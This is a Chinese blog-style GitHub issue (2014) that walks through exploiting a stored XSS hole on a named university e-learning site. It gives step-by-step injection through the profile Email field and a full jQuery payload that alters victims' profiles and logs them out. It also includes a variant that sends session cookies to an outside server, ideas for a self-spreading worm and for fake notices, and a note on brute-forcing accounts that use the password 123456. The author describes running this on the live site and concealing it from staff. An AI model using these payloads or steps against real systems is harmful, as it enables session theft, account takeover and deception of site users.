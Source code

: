 # eol.wyu.cn上的XSS漏洞

*原发表于: https://github.com/WuyiUniversity/wyuforum/issues/13*

*2014-06-01*

## 爆破密码123456之徒

[前面一节](https://github.com/WuyiUniversity/forum/issues/12)提到如何列举密码为123456的学号。它一不设验证码，二不封恶意IP，因此可以轻松爆破入口。

其实有那个列表，加上暴力，就可以干“很多事情”了。但是，今天我们讲讲eol上的XSS漏洞。

## 能干哪些“坏事”？

- ~~修改密码~~（需要原密码）
- 修改资料
- 退出登录/泄露cookie

> 就这么多？

对，确实不多，另外如“选课”、“写笔记”、“发话题”等比较杂，我们不去讨论。

> eol没人上啊，搞XSS有意义吗？

对，是很少人上，不过我们玩的就是**角色扮演、以小见大**，同时感到轻松。

## 注入代码，“分享”链接

1. 登录一个账号，进入“修改信息”，点击“修改”

1. 在“Email”中填入以下内容：

  ```html
  <script src="//code.jquery.com/jquery.min.js"></script>
  <script>
    function logout() {
      $.get('/resource/logout.jsp')
      $.get('/eol/popups/logout.jsp')
    }
    function getSid(cb) {
      $.get('/eol/main.jsp', function(html){
        var sid = html.match(/\?userid=(\d+)/)[1]
        cb(sid)
      })
    }
    function modify(data, cb) {
      getSid(function(sid){
        $.post('/eol/popups/student_info_modify_do.jsp', {
          SID: sid,
          from: 'welcomepage',
          rd: 'null',
          IPT_EMAIL: data.email,
          IPT_PHONE: data.phone,
          IPT_MOBILE: data.mobile,
          IPT_SUMMARY: data.summary
        }, cb)
      })
    }
    //////////////
    modify({
      sid: sid,
      email: '???',
      phone: '???',
      mobile: '???',
      summary: '???'
    }, logout)
  </script>
  ```

1. 打开控制台，输入：

  ```js
  document.main.document.form1.submit()
  ```

1. 提示修改成功，代码注入完毕，控制台输入：

  ```js
  document.main.location.href
  ```

1. 可以去掉`&`后面的部分，得到类似下面的url，将它“分享”给别人：

  ```
  http://eol.wyu.cn/eol/popups/viewstudent_info.jsp?SID=36066
  ```

1. 将它“分享”给其他在线的eol用户

## 简单的解析

### 范围的局限

这个url就是被注入的页面了，它是代码执行的入口，所以要诱使别人打开。

这里条件有些苛刻，必须是**在线的同站用户**，因为在这里我们注入的代码仅对他们有效。

我们的代码会使他们修改信息，然后退出登录。

### cookie泄露

当然，你可以把`logout`换成`postCookie`：

```js
function postCookie() {
  //$.get('//my.server.com/eol/zombie?cookie=' + document.cookie)
  $('<img>').attr('src', '//my.server.com/eol/zombie?cookie=' + document.cookie)
}
```

实现cookie泄露，而不是退出登录，服务端得到cookie后，可以利用其身份直接进入系统。

### 病毒式传播

`modify`的参数，也就是修改后的资料，当然不必非得是`???`，可以自己定。

假如我们把`email`设成起初填入“Email”中那冗长的段代码本身（需要重构），想象一下，假如那个入口页本身就是用户能频繁访问到的，不怎么需要我们去“分享”的，那么会怎样？

结果会是，一传十、十传百，甚至最终全站的人都“无法登录”了。当然，只是表面上，但也是一次十足的“病毒式传播”了。

## 其他玩法

正如前面提到的，还有“选课”、“写笔记”、“发话题”等各种操作，都可以实现。

噢，对了，还可以注入样式和内容，比方说把那个入口页改造成一个全新的自己的网页，伪造成新闻、公告等等任何你能想到的具有欺诈性成分。

我并不算特别了解XSS，表达也主观。**这是XSS吗？欢迎大家吐槽，一起交流。**

---

## 号被删

刚刚发现我的eol账号居然被删除了！我想是这两天异常操作太频繁吧，最终**自食其果**。

> 1. 您所查询的用户不存在!
2. 用户已被删除!

他们居然干得出来！**“学习交流！学习交流！”**

---

最后的补充：后来我到办公室反映自己号上不了，对这件事只字未提，
工作人员表示惊讶后，给我设定了一个新号，用户名相同但ID是新的，问题就解决了，也逃过一劫。

